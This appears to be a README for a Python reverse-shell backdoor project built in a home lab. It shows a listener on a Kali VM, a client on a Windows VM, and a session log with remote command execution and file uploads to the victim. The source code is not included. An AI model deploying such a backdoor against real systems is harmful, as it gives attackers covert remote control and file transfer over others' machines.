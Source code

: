# Backdoor

## Usage

Execute commands on backdoored machine, including `cd` and upload and download of files.
Use `exit` to quit.

## Kicking the Tyres

On the Kali VM:
```shell
backdoor$ python3 listener.py
[+] Listening on 192.168.122.108:4444
```

On the Windows VM

```shell
backdoor> ..\venv\Scripts\python.exe .\reverse_backdoor.py
```

Back to the Kali machine:

```shell
[+] Accepted connection from 192.168.122.63:51872
>> dir
 Volume in drive C has no label.
 Volume Serial Number is 2CEC-EEFF

 Directory of C:\Users\Nina\PycharmProjects\ymrir\backdoor

31/01/2022  22:52    <DIR>          .
31/01/2022  22:52    <DIR>          ..
31/01/2022  22:45             2,467 listener.py
31/01/2022  17:00                10 README.md
31/01/2022  22:52             2,610 reverse_backdoor.py
               3 File(s)          5,087 bytes
               2 Dir(s)   2,133,176,320 bytes free

>> upload madeit.jpg
[+] Upload Succesful
>> upload sortir.txt
[+] Upload Succesful
>> upload sortir.pdf
[+] Upload Succesful
>> exit
                                         
```